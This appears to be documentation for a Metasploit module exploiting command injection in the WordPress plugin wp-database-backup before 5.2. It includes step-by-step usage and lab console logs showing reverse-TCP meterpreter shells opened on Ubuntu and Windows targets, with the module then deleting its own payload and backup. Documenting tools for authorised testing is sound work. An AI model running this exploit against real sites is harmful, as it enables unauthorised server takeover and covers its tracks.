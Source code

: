 ## Description

  There exists a command injection vulnerability in the Wordpress plugin `wp-database-backup` for versions < 5.2.
  
  For the backup functionality, the plugin generates a `mysqldump` command to execute. The user can choose specific
  tables to exclude from the backup by setting the `wp_db_exclude_table` parameter in a POST request to the
  `wp-database-backup` page. The names of the excluded tables are included in the `mysqldump` command unsanitized.

  Arbitrary commands injected through the `wp_db_exclude_table` parameter are executed each time the functionality
  for creating a new database backup are run.

## Vulnerable Application

  The `wp-database-backup` plugin < `v5.2`. The plugin can be found [here](https://wordpress.org/plugins/wp-database-backup/).
  Older versions of the software can be found via the `advanced` view on the plugin's main page.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/wp_db_backup_rce```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <password>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on wp-database-backup v4.6.5 running Wordpress 5.1 on Ubuntu 18.04

  ```
  msf exploit(multi/http/wp_db_backup_rce) > set target 1
  target => 1
  msf exploit(multi/http/wp_db_backup_rce) > set rhosts 192.168.37.147
  rhosts => 192.168.37.147
  msf exploit(multi/http/wp_db_backup_rce) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(multi/http/wp_db_backup_rce) > check

  [*] Version of wp-database-backup detected: 4.6
  [*] 192.168.37.147:80 - The target appears to be vulnerable.
  msf exploit(multi/http/wp_db_backup_rce) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [+] Reached the wp-database-backup settings page
  [+] Successfully added payload as an excluded table
  [*] Sending stage (985320 bytes) to 192.168.37.147
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.147:48398) at 2019-06-25 11:05:27 -0500
  [+] Successfully created a backup of the database
  [+] Successfully deleted the database backup
  [+] Successfully deleted the payload from the excluded tables list

  meterpreter > getuid
  Server username: uid=33, gid=33, euid=33, egid=33
  meterpreter > sysinfo
  Computer     : 192.168.37.147
  OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

### Tested on wp-database-backup v4.6.5 running Wordpress 5.2 on Windows 10

  ```
  msf > use exploit/multi/http/wp_db_backup_rce 
  msf exploit(multi/http/wp_db_backup_rce) > set rhosts 192.168.37.144
  rhosts => 192.168.37.144
  msf exploit(multi/http/wp_db_backup_rce) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf exploit(multi/http/wp_db_backup_rce) > set username user
  username => user
  msf exploit(multi/http/wp_db_backup_rce) > set password password
  password => password
  msf exploit(multi/http/wp_db_backup_rce) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/http/wp_db_backup_rce) > check

  [*] Version of wp-database-backup detected: 4.6
  [*] 192.168.37.144:80 - The target appears to be vulnerable.
  msf exploit(multi/http/wp_db_backup_rce) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [+] Reached the wp-database-backup settings page
  [+] Successfully added payload as an excluded table
  [*] Sending stage (206403 bytes) to 192.168.37.144
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.144:49844) at 2019-06-25 11:01:22 -0500
  [+] Successfully created a backup of the database
  [+] Successfully deleted the database backup
  [+] Successfully deleted the payload from the excluded tables list

  meterpreter > getuid
  Server username: DESKTOP-RTVVNST\Shelby Pace
  meterpreter > sysinfo
  Computer        : DESKTOP-RTVVNST
  OS              : Windows 10 (Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  ```
